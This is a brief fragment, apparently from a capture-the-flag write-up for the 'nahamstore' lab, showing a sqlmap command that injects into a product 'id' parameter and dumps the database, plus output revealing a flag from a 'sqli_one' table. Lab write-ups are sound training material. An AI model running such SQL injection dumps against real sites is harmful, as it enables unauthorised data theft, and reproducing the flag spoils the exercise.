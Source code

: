 ![image.png](image%206.png)

![image.png](image%2014.png)

`sqlmap -u 'http://nahamstore.thm/product?id=1' -p "id" --random-agent --dump --batch --dbms=MySQL`

```jsx
Database: nahamstore
Table: sqli_one
[1 entry]
+----+------------------------------------+
| id | flag                               |
+----+------------------------------------+
| 1  | {d890234e20be48ff96a2f9caab0de55c} |
+----+------------------------------------+
```
